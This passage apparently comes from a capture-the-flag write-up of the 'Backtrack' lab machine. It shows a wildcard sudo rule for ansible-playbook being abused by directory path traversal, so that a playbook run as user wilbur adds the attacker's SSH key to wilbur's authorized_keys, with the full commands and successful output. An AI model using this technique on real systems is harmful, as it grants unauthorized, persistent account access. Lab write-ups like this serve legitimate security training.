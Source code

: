 This playbook will add our SSH public key in the `authorized_keys` file of wilbur’s `home/.ssh` folder. Then, we will be able to connect with the `wilbur` account using SSH.

How will we execute the ansible playbook ? In the output of `sudo -l`, we can clearly see the **wildcard** (*) in the authorized command, this will allow us to make a **directory path traversal**.

```shell
tomcat@Backtrack:~$ chmod 666 /tmp/add_ssh.yml #We allow the file to be accessed by anyone

tomcat@Backtrack:~$ sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/add_ssh.yml
<-playbook /opt/test_playbooks/../../tmp/add_ssh.yml
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/connection/httpapi.py) as it seems to be invalid:
module 'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/connection/vmware_tools.py) as it seems to be invalid:
module 'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/connection/winrm.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/foreman.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/grafana_annotations.py) as it seems to be
invalid: module 'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/hipchat.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/nrdp.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/slack.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/splunk.py) as it seems to be invalid: module
'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-
packages/ansible/plugins/callback/sumologic.py) as it seems to be invalid:
module 'lib' has no attribute 'X509_V_FLAG_NOTIFY_POLICY'

PLAY [Add SSH key to wilbur] ***************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [Ensure .ssh directory exists] ********************************************
changed: [localhost]

TASK [Add authorized_keys] *****************************************************
changed: [localhost]

PLAY RECAP *********************************************************************
localhost                  : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
```
